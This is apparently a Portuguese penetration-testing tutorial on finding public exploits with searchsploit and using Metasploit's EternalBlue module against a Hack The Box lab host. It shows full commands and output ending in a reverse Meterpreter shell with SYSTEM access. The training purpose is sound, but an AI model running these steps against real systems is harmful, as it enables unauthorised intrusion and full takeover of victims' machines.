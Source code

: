 Depois de identificar os serviços em execução nas portas identificadas em nossa verificação `Nmap`, a primeira etapa é verificar se algum dos aplicativos/serviços possui alguma exploração pública. Explorações públicas podem ser encontradas para aplicativos da Web e outros aplicativos executados em portas abertas, como `SSH` ou `ftp`.

### Encontrando Exploits Públicos

Muitas ferramentas podem nos ajudar a procurar explorações públicas para os vários aplicativos e serviços que podemos encontrar durante a fase de enumeração. Uma maneira é procurar no Google o nome do aplicativo `exploit` para ver se obtemos algum resultado:

![[Pasted image 20230614124056.png]]

Uma ferramenta bem conhecida para esse fim é `searchsploit`, que podemos usar para pesquisar vulnerabilidades/exploits públicos para qualquer aplicativo. Podemos instalá-lo com o seguinte comando:

```shell-session
casluxd@htb[/htb]$ sudo apt install exploitdb -y
```

Em seguida, podemos usar `searchsploit` para pesquisar um aplicativo específico por seu nome, conforme a seguir:

```shell-session
casluxd@htb[/htb]$ searchsploit openssh 7.2

----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                                        | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Também podemos utilizar bancos de dados de exploração online para procurar vulnerabilidades, como [Exploit DB](https://www.exploit-db.com/) , [Rapid7 DB](https://www.rapid7.com/db/) ou [Vulnerability Lab](https://www.vulnerability-lab.com/) .

## Metasploit Primer

O Metasploit Framework (MSF) é uma excelente ferramenta para pentesters. Ele contém muitos exploits integrados para muitas vulnerabilidades públicas e fornece uma maneira fácil de usar esses exploits contra alvos vulneráveis. MSF tem muitos outros recursos, como:

- Executando scripts de reconhecimento para enumerar hosts remotos e alvos comprometidos
- Scripts de verificação para testar a existência de uma vulnerabilidade sem realmente comprometer o alvo
- Meterpreter, que é uma ótima ferramenta para se conectar a shells e executar comandos nos alvos comprometidos
- Muitas ferramentas pós-exploração e pivotantes

Vamos dar um exemplo básico de busca de um exploit para um aplicativo que estamos atacando e como explorá-lo. Para executar `Metasploit`, podemos usar o comando `msfconsole`:

```shell-session
casluxd@htb[/htb]$ msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.0.16-dev                          ]
+ -- --=[ 2074 exploits - 1124 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
```

Depois de `Metasploit` executar, podemos procurar nosso aplicativo de destino com o comando `search exploit`. Por exemplo, podemos procurar a vulnerabilidade SMB que identificamos anteriormente:

```shell-session
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```

Dica: A pesquisa pode aplicar filtros complexos, como pesquisa cve:2009 type:exploit.

Encontramos um exploit para este serviço. Podemos usá-lo copiando o nome completo dele e usando `USE` para usá-lo:

```shell-session
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Antes de podermos executar o exploit, precisamos configurar suas opções. Para visualizar as opções disponíveis para configurar, podemos usar o comando `show options`:

```shell-session
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```

Qualquer opção `Required` definida como `yes` precisa ser definida para que o exploit funcione. Neste caso, temos apenas duas opções para definir: `RHOSTS`, que significa o IP do nosso destino (pode ser um IP, vários IPs ou um arquivo contendo uma lista de IPs). Podemos configurá-los com o comando `set`:

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Depois de definir as duas opções, podemos iniciar a exploração. No entanto, antes de executar o script, podemos executar uma verificação para garantir que o servidor esteja vulnerável:

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

Como podemos ver, o servidor está realmente vulnerável. Observe que nem todos os exploits no `Metasploit Framework` suportam a função `check`. Por fim, podemos usar o comando `run` ou  `exploit` para executar o exploit:

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

Como podemos ver, conseguimos obter acesso de administrador à caixa e usamos o `shell`comando para nos colocar em um shell interativo. Estes são exemplos básicos de uso `Metasploit` para explorar uma vulnerabilidade em um servidor remoto. Existem muitas caixas aposentadas na plataforma Hack The Box que são ótimas para praticar o Metasploit. Alguns deles incluem, mas não se limitam a:
- Granny/Grandpa
- Jerry
- Blue
- Lame
- Optimum
- Legacy
- Devel

